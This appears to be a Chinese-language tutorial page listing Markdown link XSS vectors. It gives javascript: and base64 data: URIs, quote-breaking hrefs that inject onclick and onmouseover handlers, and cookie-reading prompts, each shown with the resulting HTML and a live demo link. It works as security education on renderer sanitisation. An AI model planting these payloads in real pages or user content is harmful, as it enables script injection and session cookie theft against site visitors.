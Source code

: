 # Markdown XSS 連結攻擊



## 執行 JavaScript alert

***程式碼***

```markdown
[執行 JavaScript alert][JsAlert]
[JsAlert]: javascript:alert(123);
```

***產生 Markdown HTML***

```html
<a href="javascript:alert(123);" target="_blank">執行 JavaScript alert</a>
```

***Demo***

[執行 JavaScript alert][JsAlert]


## 執行 JavaScript prompt

***程式碼***

```markdown
[執行 JavaScript Promtp][JsPromtp]
[JsPromtp]: javascript:prompt(document.cookie,'這是你的cookie')
```

***產生 Markdown HTML***

```html
<a href="javascript:prompt(document.cookie,'這是你的cookie')" target="_blank">執行 JavaScript Promtp</a>
```

***Demo***

[執行 JavaScript Promtp][JsPromtp]



## 執行 base64 JavaScript alert


***轉換 javascript 程式為 base64 字串***

> [base64 轉換網站](https://www.base64encode.org/)

```
HTML： <script>alert('XSS')</script>

base64： PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

***程式碼***

```markdown
[執行 base64 JavaScript alert](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```

***產生 Markdown HTML***

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K" target="_blank">執行 base64 JavaScript alert</a>
```

***Demo***

[執行 base64 JavaScript alert](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)





## 滑鼠點擊事件 onclick

***程式碼***

```markdown
[滑鼠點擊事件 onclick][htmlOnClick]
[htmlOnClick]: http://www.google.com.tw/#"onclick='alert(123)'
```

***產生 Markdown HTML***

```html
<a href="http://www.google.com.tw/#" onclick='alert(123)' target="_blank">滑鼠點擊事件 onclick</a>
```

***Demo***

[滑鼠點擊事件 onclick][htmlOnClick]

> 在 gitbook 有將特殊字元 " 字串轉換成無法執行的 ```&quot;```，所以 gitbook 沒有這方面的漏洞







## 滑鼠滑過事件 onmouseover

***程式碼***

```markdown
[滑鼠滑過事件 onmouseover][htmlOnMouseOver]
[htmlOnMouseOver]: http://www.google.com.tw/#"onmouseover='alert(123)'
```

***產生 Markdown HTML***

```html
<a href="http://www.google.com.tw/#" onmouseover='alert(123)' target="_blank">滑鼠滑過事件 onmouseover</a>
```

***Demo***

[滑鼠滑過事件 onmouseover][htmlOnMouseOver]

> 在 gitbook 有將特殊字元 " 字串轉換成無法執行的 ```&quot;```，所以 gitbook 沒有這方面的漏洞








### 擷取你的 cookie

```markdown
[擷取你的 cookie][JsCookie]
[JsCookie]: javascript:document.cookie='yourcookie=這是你的cookie';alert(document.cookie);
```

***產生 Markdown HTML***

```html
<a href="javascript:document.cookie='yourcookie=這是你的cookie';alert(document.cookie);" target="_blank">擷取你的 cookie</a>
```

***Demo***

[擷取你的 cookie][JsCookie]



## 錯誤事件處理 onerror

***程式碼***

```markdown
[錯誤事件處理 onerror](javascript:window.onerror=alert;throw%20document.cookie)
```

***產生 Markdown HTML***

```html
<a href="javascript:window.onerror=alert;throw%20document.cookie" target="_blank">錯誤事件處理 onerror</a>
```

***Demo***

[錯誤事件處理 onerror](javascript:window.onerror=alert;throw%20document.cookie)




## 參考資料
* [XSS等web安全漏洞的防范](http://deadhorse.me/nodejs/2012/09/20/xss_in_cnode.html)
* [Exploiting Markdown Syntax and Telescope Persistent XSS through Markdown (CVE-2014-5144)](http://shubh.am/exploiting-markdown-syntax-and-telescope-persistent-xss-through-markdown-cve-2014-5144/)



[JsAlert]: javascript:alert(123);
[htmlOnClick]: http://www.google.com.tw/#"onclick='alert(123)'
[htmlOnMouseOver]: http://www.google.com.tw/#"onmouseover='alert(123)'
[JsCookie]: javascript:document.cookie='yourcookie=這是你的cookie';alert(document.cookie);
[JsPromtp]: javascript:prompt(document.cookie,'這是你的cookie')